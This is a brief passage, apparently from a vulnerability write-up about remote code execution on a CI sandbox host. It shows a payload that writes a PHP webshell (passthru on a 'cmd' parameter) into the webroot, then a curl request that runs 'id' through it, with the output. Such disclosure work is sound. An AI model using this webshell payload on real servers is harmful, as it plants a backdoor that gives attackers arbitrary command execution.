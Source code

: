 We can create a payload that creates a PHP webshell under the webroot.

```bash
echo+"<pre><?php+passthru(\$_GET['cmd']);+?></pre>"+>+/var/www/html/webshell.php
```

Next, we can interact via our webshell.

```bash
$ curl http://ci-sandbox/webshell.php?cmd=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

[^1]: Remote Code Execution
